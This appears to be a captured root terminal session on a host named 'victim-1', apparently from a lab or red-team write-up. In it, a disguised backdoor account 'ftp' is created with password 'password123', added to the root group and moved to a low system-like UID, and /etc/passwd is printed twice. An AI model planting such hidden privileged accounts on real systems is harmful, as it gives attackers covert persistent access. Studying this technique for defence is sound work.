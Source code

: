 ```
root@victim-1:~# useradd -m ftp -s /bin/bash
useradd -m ftp -s /bin/bash
root@victim-1:~# passwd ftp
passwd ftp
Enter new UNIX password: password123
Retype new UNIX password: password123
passwd: password updated successfully
root@victim-1:~# cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
messagebus:x:103:105::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
jackie:x:1000:1000:,,,:/home/jackie:/bin/bash
ftp:x:1001:1001::/home/ftp:/bin/bash
```

```
root@victim-1:~# groups root
groups root
root : root
root@victim-1:~# usermod -aG root ftp
usermod -aG root ftp
root@victim-1:~# groups ftp
groups ftp
ftp : ftp root
root@victim-1:~# usermod -u 15 ftp
usermod -u 15 ftp
```

```
root@victim-1:~# cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
```